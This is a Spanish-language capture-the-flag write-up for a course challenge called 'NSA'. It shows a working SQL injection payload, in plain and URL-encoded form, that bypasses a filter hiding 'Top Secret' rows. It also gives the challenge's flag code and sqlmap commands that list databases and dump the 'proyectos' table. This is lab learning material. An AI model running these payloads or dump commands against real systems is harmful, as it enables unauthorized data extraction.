






# Desafío 2 - NSA

SQL Injection 
Desafío 2 - NSA 
 
Abris el Burp Suite y vas realizando filtrados que son GET. En el cual identificamos que 
tenemos un parámetro que es Type. 
 
 
 
Parámetros que fui probando 
 
type=ABC 
 
Unknown column 'ABC' in 'where clause' indica que el valor que mandaste (ABC) se 
colocó directamente dentro de la cláusula WHERE sin comillas. MySQL intentó interpretarlo 
como nombre de columna (identificador) y al no existir devolvió ese error. 
 
Implicación: el parámetro type se inserta sin sanitizar en la consulta SQL. Eso abre la 
puerta a inyecciones tipo boolean/time/union etc. Además el motor es MySQL (o 
compatible), por la forma del mensaje.

type=3” 
 
●​ El backend construye una cláusula adicional como AND p.id_nivel != 
(SELECT id FROM niveles WHERE nombre='Top Secret') para excluir 
explicitamente las filas Top Secret.​
 
●​ El fragmento '" AND ...' sugiere que el valor que se inyectó rompió 
comillas/delimitadores: hay una comilla doble " justo antes del AND en la consulta 
final. Es decir, la aplicación puede estar concatenando el parámetro dentro de una 
expresión que usa comillas dobles o una mezcla entre partes citadas y no citadas. 
Conclusión práctica: el parámetro type se inserta directamente en la consulta y la 
aplicación añade una condición que excluye Top Secret. Nuestro objetivo será anular 
esa condición o forzar que se añadan filas con Top Secret usando inyección. 
 
PARA PODER REALIZAR EL CAMBIO SE DEBE INCLUIR EL PLAIN Y EL ENCODED: 
●​ Plain: 3 OR p.id_nivel = (SELECT id FROM niveles WHERE 
nombre='Top Secret') -- 
●​ 3%20OR%20p.id_nivel%20%3D%20(SELECT%20id%20FROM%20niveles%20WH
ERE%20nombre%3D%27Top%20Secret%27)%20--%20

●​ Encoded: 
(esto 
es 
lo 
que 
hay 
que 
copiar 
al 
lado 
del 
type=) 
 
Si añadís solamente el encoded te tira este error.  
 
 
El payload fuerza que la condición del WHERE sea verdadera para 
filas que tengan el mismo id_nivel que la fila de niveles con nombre 
'Top Secret'. Es decir: agrega una condición OR p.id_nivel = (SELECT 
id FROM niveles WHERE nombre='Top Secret') a la consulta original, y 
el -- al final comenta cualquier resto de la consulta que la 
aplicación hubiera añadido después del parámetro, evitando que ese 
resto invalide la inyección. Así logras que la consulta incluya 
explícitamente las filas Top Secret aunque la aplicación trate de 
excluirlas. 
Papel del -- (comentario) 
MySQL trata -- (dos guiones y espacio) como inicio de comentario 
hasta el final de la línea. Muchas aplicaciones concatenan más 
condiciones después del parámetro (por ejemplo, AND p.activo = 1), 
lo que puede romper la inyección si no se trunca. Al poner -- al 
final, cortás cualquier cosa que venga después en la consulta SQL 
que construyó la aplicación, evitando errores de sintaxis o 
condiciones no deseadas.

El codigo es 141e9ea9d1c4ade203ffe3ee03ebff1c

Solución 2 
Me descargue una herramienta que se llama sqlmap. Y entrando en la base de datos y las 
tablas también se puede resolver este desafío 
 
Primero que nada en todos los scripts que haga pego la URL de la página que realiza el 
filtrado.  
Es todo el mismo script, la primer parte ejecuta el sqlmap, dps la url y dps lo que quiero que 
haga 
 
-- listo todas las bases de datos 
python sqlmap.py -u 
"https://chl-decfcb51-6464-4c00-a781-9713a1947e0f-nsa.softwareseguro.com.ar/backend/in
dex.php?type=3" --dbs 
 
 
-- listo todas las tablas de la base de datos NSA 
python sqlmap.py -u 
"https://chl-decfcb51-6464-4c00-a781-9713a1947e0f-nsa.softwareseguro.com.ar/backend/in
dex.php?type=3" -D nsa --tables 
 
 
-- le pide a sqlmap que extraiga y muestre todos los datos contenidos en la tabla 
proyectos dentro de la base de datos nsa. 
python sqlmap.py -u 
"https://chl-decfcb51-6464-4c00-a781-9713a1947e0f-nsa.softwareseguro.com.ar/ba
ckend/index.php?type=3" -D nsa -T proyectos --dump

